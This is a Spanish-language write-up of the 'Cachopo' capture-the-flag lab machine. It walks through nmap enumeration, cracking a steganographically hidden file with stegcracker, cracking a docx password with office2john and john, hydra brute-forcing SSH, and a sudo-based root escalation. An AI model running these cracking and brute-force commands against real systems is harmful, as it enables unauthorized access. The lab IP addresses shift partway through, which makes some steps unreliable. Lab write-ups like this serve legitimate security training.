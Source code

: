 # CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---


## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```
## Uso de NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 192.168.101.128
``` 

![nmap1](Images/cachopo_nmap1.png)

![nmap2](Images/cachopo_nmap2.png)

### Descubrimiento de hosts activos

```bash
nmap -sP 192.168.101.128/24
```
![Host Activos](Images/host_activos.png)

### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 192.168.101.128
```


**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).


---

## 2. Análisis del Servicio Web

![Go Buster](Images/cachopo_gobuster.png)


### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `192.168.101.128 cachopo.thl` a `/etc/hosts`.

![Host](Images/add_host_dhcp.png)

### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.

![Web Cachopo](Images/cachopo_thl.png)


![Imagen Cachopo](Images/cachopo.jpg)


---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida**: `doggies`

- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.

![Go Buster](Images/stegcraker_cachopo.png)

---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.docx`.

### Extracción de hash con `office2john`

```bash
office2john Cocineros > hash.txt
```

### Ataque de fuerza bruta

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**.

Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.20 -t 4
```

---

## 6. Acceso a SSH

Una vez hallado el usuario y contraseña correctos, se accedió al sistema vía SSH:

```bash
ssh usuario@10.0.2.20
```

---

## 7. Escalada de Privilegios

### Ver comandos con `sudo`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo.

### Ejecución del binario vulnerable

- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.

---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 Evidencia




